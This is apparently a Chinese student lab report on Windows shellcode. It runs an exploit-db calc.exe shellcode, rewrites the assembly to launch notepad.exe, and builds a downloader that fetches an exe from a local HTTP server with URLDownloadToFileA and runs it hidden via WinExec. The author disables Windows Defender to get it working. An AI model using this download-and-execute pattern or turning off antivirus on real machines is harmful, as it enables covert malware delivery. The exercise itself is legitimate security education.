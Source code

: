 ## 第一次实验

### 实验要求

- [x] 把[该链接](https://www.exploit-db.com/shellcodes/48116)中shellcode能够成功运行
- [x] 能从汇编源码编译通过并成功dump
- [x] 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
- [x] 修改shellcode功能为运行记事本程序notepad.exe
- [ ] (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）

### 实验流程

1. **应用shellcode弹出calc.exe**

![img](img/calc.exe.jpg)

2. **能从汇编源码编译通过并成功dump**
    ```
    执行的命令：
    cl.exe /c over.c
    link.exe over.obj
    over.exe
    ```
    ![img](img/over.c编译.jpg)

    ```
    dumpbin over.exe
    ```
    ![img](img/dumpbin.jpg)

3. **修改shellcode功能为运行记事本程序notepad. exe**
    + 在虚拟机中编辑汇编代码win32-WinExec_Calc-Exit.asm
    ![img](img/kali编辑汇编.jpg)
    ```
    核心代码：
    ; Call WinExec( CmdLine, ShowState );
    ;   CmdLine   = "notepad.exe"
    ;   ShowState = 0x00000001 = SW_SHOWNORMAL - displays a window
    xor ecx, ecx          ; clear eax register
    push ecx              ; string terminator 0x00 for "notepad.exe" string
    push 0x00657865       ;  exe : 6578652e
    push 0x2e646170       ; .dap : 63617065
    push 0x65746f6e       ; eton : 746f6e1
    mov ebx, esp          ; save pointer to " notepad.exe" string in eax
    inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
    push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
    push ebx              ; lpcmdLine - push string address stack # 1st argument
    call eax              ; Call the WinExec Function
    ```
    + 然后执行以下命令：
    ```
    //nasm（汇编器） - f win32 win32 - WinExec_Calc - Exit.asm（汇编文件名） - o win32 - WinExec_Calc - Exit.o（输出文件名）
    将汇编文件转换为.o文件
    for i in $(objdump - D win32 - WinExec_Calc - Exit.o | grep "^ " | cut - f2(以2个字符分隔循环); do echo - n '\x'$i(每个字符前加一个\x); done; echo
    将.o文件打印为可执行的shellcode代码
    ```
    + 输出shellcode代码：
    ![img](img/shellcode1.jpg)
    + 执行弹出notepad.exe
    ![img](img/notepad.exe.jpg)

    ---


4. **修改shellcode功能为下载执行器**
- 所下载的exe为3中的over.exe,exe功能：弹出notepad.exe。

+ 使用GetProcAddress函数，URLDownloadToFileA模块
+ 在over.exe所在的路径下使用`python -m http.server`命令搭建一个网站
    ![img](img/localhost8000.jpg)
    ```
    function_ptr(NULL, "http://10.195.24.110:8000/over.exe", "a.exe", 0, NULL);
	WinExec("a.exe", SW_HIDE);
    ```
- 在网站中下载exe后，使用WinExec调用exe，执行成功
![img](img/dl_exec.jpg)

- 将C语言变成汇编语言




#### 遇到的问题

- notepad.exe应该从前往后对齐压栈，在老师的提醒下改了过来
- 做最后一个实验exe被杀掉，暂时关掉Windows Defender，做完实验后再开启
- 调试的时候看到输出是无法打开PDB文件，也不知道是不是这个问题，所以按照[博客](https://blog.csdn.net/zj360202/article/details/38678207)解决了一下报错。